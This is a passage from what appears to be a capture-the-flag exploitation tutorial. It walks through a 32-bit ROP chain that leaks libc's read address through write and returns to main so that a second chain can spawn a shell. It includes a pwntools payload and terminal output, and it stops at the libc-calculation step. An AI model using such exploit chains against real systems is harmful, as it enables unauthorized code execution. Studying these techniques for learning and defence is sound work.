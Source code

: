 Awesome, we managed to leak the address of `read`, now it's time to call `main` again. 

---

> Reason: THe reason we are calling main is again is because the libc address gets changed with every process, what we need to do here is, we call `main` in the same process and sending the 2nd ROP chain which will spawn a shell.

---

This can be done with adding the address of `main` to the 1st ROP chain.

```r
payload = b"A"*13
payload += p32(elf.plt['write'])
payload += p32(gadget)
payload += p32(1)
payload += p32(elf.got['read'])
payload += p32(0x8)
payload += p32(elf.symbols['main'])
```


Running it again:-

```r
d4mianwayne@oracle:~/Pwning/rop$ python3 chall.py 
[+] Starting local process './chall': pid 8139
[*] '/home/d4mianwayne/Pwning/rop/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] read@libc: 0xf7e7ccb0
[*] Switching to interactive mode
$ hello
Hello World
\x00[*] Got EOF while reading in interactive
$ 
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 8139)
[*] Got EOF while sending in interactive
```

We are able to give input again and `"Hello World"` which means we successfully called `main`.

### Calculating LIBC address 

Like I said earlier to get the libc address we need to subtract the leaked address from the the function's offset from LIBC. This can be done by:-
